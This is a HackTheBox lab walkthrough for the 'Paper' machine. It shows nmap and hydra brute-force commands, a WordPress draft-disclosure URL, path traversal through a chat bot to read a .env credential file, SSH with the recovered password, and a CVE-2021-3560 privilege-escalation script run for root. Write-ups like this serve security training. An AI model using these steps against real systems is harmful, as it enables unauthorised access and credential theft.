# HackTheBox Walkthrough - Paper

**Machine Name**: Paper  
**Target IP**: 10.129.136.31  
**Operating System**: CentOS  
**Difficulty**: Medium  
**Author**: User  


---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Paper 10.129.136.31
```


**Results:**
```
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
```


- `Server: Apache/2.4.37`, `X-Backend-Server: office.paper`
- Added to `/etc/hosts`: `10.129.136.31 office.paper`

## 🌐 Web Enumeration

### WordPress Found
- URL: `http://office.paper/`
- Footer: `Powered by WordPress`
- Version from HTML source: `WordPress 5.2.3`
- Users discovered from posts: `michael`, `jan`, `nick`
- Only user `michael` remains



### 🔐 Brute Force Attempt (failed)
```bash
hydra -l michael -P /usr/share/wordlists/rockyou.txt http://office.paper/ http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid"
```

## 🔍 Vulnerability Discovery



### WordPress exploit (47690) - Post draft enumeration
```http
http://office.paper/?static=1&order=desc
```


Revealed a secret registration URL:
```
http://chat.office.paper/register/8qozr226AhkCHZdyY
```

Added to `/etc/hosts`: `10.129.136.31 chat.office.paper`

## 💬 Chat Application Enumeration

- Bot: `recyclops` has commands to list and read files


- Commands used
```
list ./
file sale/portfolio.txt
file ../hubot/.env
```


- Credentials found:
```env
ROCKETCHAT_USER=recyclops
ROCKETCHAT_PASSWORD=Queenofblad3s!23
```

## 🖥 Shell Access

### SSH to dwight
```bash
ssh dwight@10.129.136.31
Password: Queenofblad3s!23
```


### 🏁 User Flag
```bash
cat /home/dwight/user.txt
```


## ⬆️ Privilege Escalation

### CVE-2021-3560 Exploit
execute linpeas.sh


- [ExploitDB 50011](https://www.exploit-db.com/exploits/50011)
- Sent and executed script: `50011.sh`
```bash
chmod +x 50011.sh
./50011.sh
su - hacked (password: password)
sudo su
```


### 🏁 Root Flag
```bash
cat /root/root.txt
```


---

✅ **Rooted Paper successfully!**
